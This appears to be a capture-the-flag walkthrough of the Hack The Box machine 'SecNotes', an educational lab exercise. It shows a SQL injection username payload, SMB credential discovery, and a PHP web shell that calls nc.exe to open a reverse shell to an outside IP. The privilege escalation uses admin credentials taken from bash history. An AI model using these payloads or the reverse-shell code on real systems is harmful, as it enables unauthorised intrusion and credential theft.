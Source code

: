 # SecNotes

### Reconnaissance

- port 80/tcp HTTP Microsoft IIS httpd 10.0 PHP  
- port 445/tcp SMB Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)  
- port 8808/tcp HTTP Microsoft IIS httpd 10.0  

SMB anonymous access disabled

port 80 directory enumeration shows:
- auth.php -> 500
- login.php -> 200
- register.php -> 200

port 8808 shows no directories and the index is IIS default splash page

Registering and logging in shows a message exposing a potential username

![Username](./pictures/username.png)

The username parameter is used to load notes related to the user, it's vulnerable to SQLi by registering a 
user called `' OR 1=1;#` (Heath uses `'OR 1 OR'` and other payloads in Burp Intruder Sniper to check valid 
usernames)

On login all user notes are displayed, one note contains an SMB directory and credentials for tyler

### Exploitation

The SMB share contains the index for the server on port 8808

We can upload files but .asp and .aspx files return 404s, PHP files will execute however

We can use nc.exe and a custom PHP shell to get a reverse shell by uploading nc.exe and the PHP shell

```
# rev.php
<?php
system('nc.exe -e cmd.exe 10.10.10.2 4444)
?>
```

Use smbclient to upload nc.exe and the PHP shell, then start a listener and navigate to /rev.php to get a 
shell as tyler

### Privilege Escalation

Find bash.exe and run

![bash](./pictures/bash-exe.png)

Root in bash.exe, look at /root bash history

![history](./pictures/admin-smb.png)

Access C:\ drive as admin with smbclient credentials found in history

Get root flag
